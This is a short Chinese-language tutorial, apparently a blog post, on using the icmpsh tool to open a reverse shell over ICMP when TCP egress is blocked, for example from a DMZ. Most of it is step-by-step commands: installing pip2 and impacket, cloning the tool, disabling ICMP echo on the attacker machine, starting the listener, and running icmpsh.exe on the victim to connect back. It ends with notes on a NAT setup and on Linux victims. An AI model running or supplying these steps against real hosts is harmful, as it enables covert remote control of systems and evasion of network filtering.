


项目地址：[https://github.com/bdamele/icmpsh](https://github.com/bdamele/icmpsh)
### 背景
很多时候网络运维人员只会允许流量进入已知主机，端口和服务（在入口处过滤），当身处DMZ区域，通过TCP获取反向shell是不可能的，但是如果使用UDP（DNS隧道）或者icmp那么还是可以尝试
### ICMPSH
icmpsh是由python2 编写的，Linux 默认自带python2，但是无pip2，下载pip2()，然后下载项目(git clone )
```shell
// 下载pip2 
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
// 安装pip2，默认python 版本是python2
python get-pip.py
// 下载项目
git clone https://github.com/bdamele/icmpsh
```
### 使用方法
#### 条件

1. 攻击机关闭icmp回应包
2. 受害机能发送icmp包到攻击机
```shell
pip install impacket -i https://pypi.douban.com/simple
// 首先在攻击机上关闭icmp回显
sysctl -w net.ipv4.icmp_echo_ignore_all=1
// 其次，192.168.93.131是攻击机
python icmpsh_m.py 192.168.93.131 192.168.93.134
// 最后，在受害机执行
icmpsh.exe -t 192.168.93.131
```

### 两个问题

1. 当前演示的环境是windows，那么受害机是Linux如何getshell ？

Linux 主机暂时未找到解决办法。。

2. 为什么使用虚拟机（NAT模式下），主机作为受害者却始终不能getshell ？

因为NAT模式是交换机NAT，从宿主机走出来的流量要先经过`192.168.93.1` 然后才能走到192.168.93.131(攻击机)，所以我们需要监听的是交换机的地址

